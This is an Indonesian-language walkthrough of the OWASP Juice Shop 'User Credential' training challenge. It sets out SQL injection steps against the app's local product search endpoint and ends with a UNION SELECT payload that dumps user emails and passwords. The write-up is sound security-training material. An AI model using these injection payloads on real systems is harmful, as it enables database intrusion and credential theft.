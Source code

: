 # User Credential

## Link Resource

https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

## Jawaban + Bukti

![user](../../img/user-credential/done.png)

### Step-by-step

![user](../../img/user-credential/soal.png)

1. pada soal kali ini kita diminta untuk mendapatkan daftar semua kredensial pengguna melalui serangan SQL Injection.

```sh
http://localhost:3000/rest/products/search?q='
```

2. maka kita dapat menggunakan search dibanding login form karena lebih bisa di injection.

```sh
http://localhost:3000/rest/products/search?q=')) union select 1,2,3,4,5,6,7,8,9 from users--
```

![user](../../img/user-credential/skema.png)

3. selanjutnya kita bisa mencoba menggunakan union select

```sh
http://localhost:3000/rest/products/search?q=')) union select id,email,password,4,5,6,7,8,9 from users--
```

![user](../../img/user-credential/credential.png)

4. kemudian kita dapat mengganti beberapa kolom dengan tabel asli dari skema database, dan karena kita menggunakan kolom email dan password maka berhasil mendapatkan hasilnya.

### Catatan

- Sukses mendapatkan user credential
